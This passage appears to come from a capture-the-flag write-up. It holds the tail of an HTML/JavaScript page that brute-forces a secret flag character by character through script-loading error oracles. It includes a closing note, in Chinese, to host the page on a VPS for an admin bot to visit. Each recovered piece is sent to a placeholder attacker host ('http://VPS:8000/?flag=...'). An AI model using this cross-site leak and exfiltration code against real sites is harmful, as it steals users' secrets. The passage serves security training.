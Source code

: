 ```html

                script.onerror = () => {
                    document.head.removeChild(script);
                    resolve(false);
                };

                document.head.appendChild(script);
            });
        }

        async function bruteforce() {
            try {
                while (!currentFlag.endsWith('}')) {
                    for (let char of chars) {
                        const isCorrect = await checkCharacter(char);
                        if (isCorrect) {
                            currentFlag += char;
                            window.open(`http://VPS:8000/?flag=${currentFlag}`);
                            await sleep(50);
                            break;
                        }
                        await sleep(50);
                    }
                }
            } catch (error) {
                window.open(`http://VPS:8000/?error=${currentFlag}`);
            }
        }

        bruteforce();
    </script>
</body>

</html>
```

VPS起这个服务，bot访问即可

